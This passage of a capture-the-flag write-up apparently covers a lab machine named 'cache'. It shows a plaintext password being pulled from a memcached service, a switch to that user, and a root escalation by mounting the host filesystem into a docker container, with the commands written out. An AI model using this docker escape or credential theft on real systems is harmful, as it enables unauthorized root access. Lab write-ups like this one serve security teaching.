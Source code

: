 Seems like we have a user and passwd item. Let us get the content of these items.

```bash
get user
VALUE user 0 5
luffy
END
get passwd
VALUE passwd 0 9
0n3_p1ec3
END
```

We now have a password for the user `luffy` (`0n3_p1ec3`). Let us try to su to `luffy` next.

```bash
ash@cache:~$ su luffy
Password: 0n3_p1ec3
luffy@cache:/home/ash$
```

We successfully su to `luffy` and can now enumerate as this user.

#### Enumeration as luffy

Let us check out what groups the user `luffy` is in.

```bash
luffy@cache:~$ groups
luffy docker
```

We are in the docker group! Checking out [gtfobins](https://gtfobins.github.io/gtfobins/docker/) we can simply mount the fs into the docker container and browse the fs as root.

#### Docker privesc

Let us check which docker images are available to us.

```bash
luffy@cache:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        7 months ago        64.2MB
```

We can start an instance of the ubuntu image and mount the main file-system within the container as root.

```bash
luffy@cache:~$ docker run -v /:/mnt/rootfs -it ubuntu
root@ca53b8acdfeb:/# cd /mnt/rootfs/root/
root@ca53b8acdfeb:/mnt/rootfs/root# ls
root.txt
```

We now have read and write access to the filesystem as root. This allows us to read root.txt.

```bash
root@ca53b8acdfeb:/mnt/rootfs/root# cat root.txt 
14aa9***************************
```